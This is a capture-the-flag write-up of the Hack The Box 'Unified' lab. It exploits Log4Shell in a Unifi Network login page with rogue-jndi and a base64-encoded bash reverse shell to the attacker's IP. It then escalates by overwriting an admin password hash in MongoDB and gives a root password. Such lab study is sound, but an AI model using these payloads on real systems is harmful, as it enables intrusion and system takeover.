# Unified Writeup
We spawn the target machine <TARGET_IP> and identify open ports using nmap :
   
```bash
nmap <TARGET_IP> -p-
```
Note : *-p-* to scan all TCP ports

We will get ports 80, 6789, 8080, and 8443

To view more about each port details, we can use *-sC* and *-sV*

```bash
nmap <TARGET_IP> -p 8443 -sC
```

This tells us that port 8443 is running Unifi Network

When we visit **https://<TARGET_IP>:8443**, we will see this login page


If we look for the vulnerabilities of this unifi version, we will find this [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228) related to Log4j2, called Log4Shell.

```java
logger.debug("This is a DEBUG message.");
logger.info("This is an INFO message.");
logger.warn("This is a WARN message.");
```

This vulnerability can be exploited to give a reverse shell. It works by exploiting improper input handling in log messages format.
Log4j allows message lookup through JNDI (Java Naming and Directory Interface). JNDI allows lookup from databases, services, network and directories, including LDAP (Lightweight Directory Access Protocol) to retrieve resources.

Malicious input could contain JNDI Lookup string such as :

```java
${jndi:ldap://malicious-server.com/exploit}
```
When this is logged by vulnerable log4j instance, it will trigger log4j JNDI feature to connect to malicious server (could be attacker's machine).

We will try to login to the page, and intercept our request using BurpSuite. We will try to connect to our IP (tun0 from HTB).



Here, I used tcpdump to analyze my network traffic. It is a command line version of Wireshark.
```
Tcpdump is a command line utility that allows you to capture and analyze network traffic going through your system. It is often used to help troubleshoot network issues, as well as a security tool.
```
Since LDAP runs in port 389, we will listen on port 389.
And indeed, there is a connection to port 389 to our machine. Hence, we know that it is vulnerable to Log4Shell.

I use rogue-jndi to deliver our payload. To setup :
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

A Rogue JNDI attack occurs when an attacker sets up a malicious server (e.g., an LDAP or RMI server) to respond to a JNDI lookup with malicious payloads. When the vulnerable application performs a lookup, it retrieves and executes the payload, enabling the attacker to execute arbitrary code, steal data, or compromise the system.

Here, we will send a reverse shell payload (base64 encoded to avoid encoding issues) :
```bash
echo 'bash -c bash -i >&/dev/tcp/10.10.14.61/1443 0>&1' | base64
```

After encrypting the payload, we will send it using rogue-jndi by :
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,<PAYLOAD_HERE>}|{base64,-d}|{bash,-i}" --hostname "10.10.14.61"
```
Change the IP accordingly to your tun0 IP, and port 1443 can be any port to listen to. We will set a listener using nc :
```bash
nc -lvnp 1443
```

Then, we will use the **ldap://10.10.14.61:1389/o=tomcat** provided by the rogue-jndi and send it to the page again.


Now, we can see our nc is connected to the shell!
Lets upgrade the shell by using :
```bash
script /dev/null -c bash
```
**script** creates a new pseudo terminal (PTY).
**/dev/null** is to ensure that the logs is not saved (PTY without logging). 
**-c bash** to start bash shell in the pseudo terminal.


Here is our user.txt!


## Privilege Escalation
To see the running processes, we can use the **ps** command

*The ps command in Linux is a powerful tool that allows you to view information about the processes running on your Linux system. It stands for “process status” and it's a command that you can use from the command line to get information about the currently running processes.*

When we use *ps aux*, we notice that target uses mongo database.
<details> 
  <summary><strong>Understanding ps aux</strong></summary>
  <p><strong>ps:</strong> Stands for "process status." It is a command used to display information about active processes in the system.</p>
  <p><strong>a:</strong> This option tells ps to show processes for all users, not just the current user. By default, without this flag, ps only shows processes running under the current user’s session.</p>
  <p><strong>u:</strong> This option tells ps to display user-oriented output. This includes the username of the process owner, CPU usage, memory usage, start time, etc.</p>
  <p><strong>x:</strong> This option tells ps to show processes that are not attached to a terminal. These could include background processes, system services, or daemons.</p>
</details>

```
ps aux | grep mongo
```


It shows that mongodb runs on the port 27117.

Unifi Network default database name is ace.
We will connect to the database and run some commands as shown.


We can enumerate the users, and find admin (the output is quite long so i grep it in here).


The password is in x_shadow and sha-512 (from the ```$6$``` prepended), and we cant crack it. So instead, we will just change it directly to our password.


Copy the password over, and update the database :
```java
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```


Now, if we try to login again, using ```adminstrator``` and our password (```eryz_pass``` in my case), we are authenticated!

And SSH login is enabled to root, using ```NotACrackablePassword4U2022```

Here is our flag :D
